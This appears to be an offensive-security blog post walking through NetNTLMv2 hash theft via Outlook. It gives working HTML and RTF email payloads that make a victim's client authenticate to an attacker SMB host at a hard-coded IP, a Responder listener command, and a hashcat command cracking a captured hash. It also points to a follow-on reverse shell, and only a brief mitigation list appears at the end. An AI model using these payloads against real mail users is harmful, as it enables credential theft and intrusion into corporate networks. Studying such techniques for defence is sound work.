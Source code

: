 ```yaml
---
layout: post
title: "netntlmv2 hash stealing using outlook"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /netntlmv2-hash-stealing-using-outlook/
---
```


---
layout: post
title: "netntlmv2 hash stealing using outlook"
date: 2024-06-18
categories: initial-access
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /netntlmv2-hash-stealing-using-outlook/
---

# NetNTLMv2 hash stealing using Outlook

## Context

If a target system is not running the latest version of Windows/Outlook, it may be possible to craft such an email that allows an attacker to steal the victim's NetNTLMv2 hashes without requiring any interaction from the user - clicking the email to preview it is enough for the hashes to be stolen.

{% hint style="warning" %}
Note that this attack does not work on the most up to date version of Windows 10 and Outlook 2016 versions, so like always - patch early and often.
{% endhint %}

## Weaponization

Let's create a new HTML file with the below:

{% code title="message.html" %}
```markup
<html>
    <h1>holla good sir</h1>
    <img src="file://157.230.60.143/download.jpg">
</html>
```
{% endcode %}

An RTF file also works:

{% code title="message.rtf" %}
```javascript
{\rtf1{\field{\*\fldinst {INCLUDEPICTURE "file://157.230.60.143/test.jpg" \\* MERGEFORMAT\\d}}{\fldrslt}}}
```
{% endcode %}

Then insert a new file by clicking the attachment icon at the top on the window title bar:

![](<../../.gitbook/assets/Screenshot from 2018-12-28 15-09-57.png>)

Select the malicious messge.html and select `Insert as Text`:

![](<../../.gitbook/assets/Screenshot from 2018-12-28 15-11-07.png>)

You should see that your message now looks like an HTML with a broken image (expected in our case since the path to the image is fake):

![](<../../.gitbook/assets/Screenshot from 2018-12-28 15-11-47.png>)

## Execution

Fire up `Responder` to listen for incoming SMB authentication requests from the victim

{% code title="attacker@kali" %}
```csharp
responder -I eth1 -v
```
{% endcode %}

..and send the malicious email to the victim.

## Victim View

Once the victim opens their Outlook and clicks on the malicious email to preview it, their machine will attempt authenticating to the attacker controlled server (running Responder). This will give away the victim's `NetNTLMv2` hashes to the attacker, which they can then attempt at cracking:

![](<../../.gitbook/assets/Peek 2018-12-28 15-05.gif>)

Once the hash is stolen, we can attempt cracking it:

{% code title="attacker@kali" %}
```csharp
hashcat -m5600 'spotless::OFFENSE:6bdb56c8140cf8dc:FFEF94D55C2EB2DE8CF13F140687AD7A:0101000000000000A5A01FB2BE9ED401114D47C1916811640000000002000E004E004F004D00410054004300480001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D004200310032000800300030000000000000000000000000200000407D7D30819F03909981529F6ACA84502CFCC8B3555DBA34316F8914973DD03C0A0010000000000000000000000000000000000009001A0063006900660073002F00310030002E0030002E0030002E0035000000000000000000' -a 3 /usr/share/wordlists/rockyou.txt --force --potfile-disable
```
{% endcode %}

In this case, we can see the user had a ridiculously simple password, which got cracked immediately:

![](<../../.gitbook/assets/Screenshot from 2018-12-28 15-16-46.png>)

The next step would be to use Ruler to gain a reverse shell from the victims corporate network:

{% content-ref url="password-spraying-outlook-web-access-remote-shell.md" %}
[password-spraying-outlook-web-access-remote-shell.md](password-spraying-outlook-web-access-remote-shell.md)
{% endcontent-ref %}

## Mitigation

* Patch Windows and Outlook
* Block outgoing SMB connections to the Internet
* Read emails in plain text
* Enforce strong passwords

## References

{% embed url="https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2018/may/smb-hash-hijacking-and-user-tracking-in-ms-outlook/" %}
@spotheplanet
